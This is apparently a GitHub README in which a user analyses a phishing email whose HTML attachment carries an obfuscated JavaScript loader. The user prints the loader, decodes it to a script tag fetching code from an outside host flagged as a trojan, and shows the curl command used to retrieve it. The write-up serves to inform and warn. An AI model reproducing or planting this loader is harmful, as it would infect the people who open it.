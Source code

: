 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.
I did a "curl -v https://fictional-dmk.vercel.app > virus.out", and seconds later MS Defender popped up
and told me about a severe security issue, and quarantined the file.

I could restore it and save it here in the repository but I will not - it might make it too easy to set up the
same trap and I want to stay on the bright side.

## Analysis

### pdf
Here is the content of the .pdf attachment:

7847834783478347834783478GHSD347R8YUFDJHKFDFGKSJDGFSK786YDFUSGKFSDFSD

I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "dGtlbXBAdC1vbmxpbmUuZGU="; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml

